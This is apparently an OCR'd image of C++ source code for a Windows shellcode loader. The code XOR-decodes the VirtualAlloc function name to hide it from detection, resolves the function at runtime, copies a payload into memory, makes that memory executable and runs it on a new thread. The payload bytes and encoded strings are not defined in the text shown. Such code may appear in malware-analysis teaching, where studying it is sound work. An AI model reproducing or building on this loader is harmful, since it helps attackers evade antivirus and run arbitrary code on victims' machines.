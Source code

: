 ```cpp
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//   LPVOID lpAddress,
//   SIZE_T dwSize,
//   DWORD  flAllocationType,
//   DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);

void XOR(char * data, size_t data_len, char * key, size_t key_len) {
    int j;
    j = 0;
    for (int i = 0; i < data_len; i++) {
            if (j == key_len - 1) j = 0;
            data[i] = data[i] ^ key[j];
            j++;
    }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;


  XOR((char *) cVirtualAlloc, cVirtualAllocLen, mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```
